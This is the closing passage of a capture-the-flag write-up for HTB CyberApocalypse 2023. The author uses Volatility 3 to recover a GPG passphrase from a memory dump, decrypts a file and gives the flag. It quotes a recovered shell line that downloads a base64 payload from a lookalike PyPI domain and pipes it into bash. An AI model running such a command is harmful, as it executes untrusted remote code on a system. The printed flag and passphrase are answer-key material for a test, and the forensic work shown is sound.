ModuleNotFoundError: No module named 'cryptography'

DEBUG    volatility3.framework: Failed to import module volatility3.plugins.linux.gpg_full based on file: /home/starlord/.local/lib/python3.11/site-packages/volatility3/framework/plugins/linux/gpg_full.py
 ...SNIP...
```

So a simple
`pip3 install cryptography`
solved my issue definitively.

C. Decrypting the files

That’s when another issue rose up: it takes a default starting time of right now.


Remember this line?
```
440     bash    2023-03-03 20:51:27.000000      curl http://files.pypi-install.com/packages/Kxr43fMD9t.manifest|base64 -d|bash

```

Lets turn this date into unix time (1677876687) and feed it to volatility3 again:

```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ vol -f forensics.mem linux.gpg_full.GPGItem --fast --epoch 1677876687
Volatility 3 Framework 2.4.2
Progress:  100.00               Stacking attempts finished                 
Offset  Private key     Secret size     Plaintext
Searching from 03 Mar 2023 20:51:27 UTC to 12 Sep 2023 06:06:55 UTC

0x7f96f0002038  86246ef7da91e80ac9f1587bf8d93e76        32      wJ5kENwyu8amx2RM
0x7f96f0002038  86246ef7da91e80ac9f1587bf8d93e76        32      wJ5kENwyu8amx2RM
```

This is the passphrase used for encrypting the files with pgp,

```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ gpg --decrypt flag.txt.a59ap                       
gpg: données chiffrées avec AES256.CFB
gpg: chiffré avec 1 phrase secrète
HTB{n0_n33d_t0_r3turn_th3_r3l1c_1_gu3ss}
```

and this is how I managed to solve my first hard challenge during HTB’s CyberApocalypse CTF 2023!

## Flag
HTB{n0_n33d_t0_r3turn_th3_r3l1c_1_gu3ss}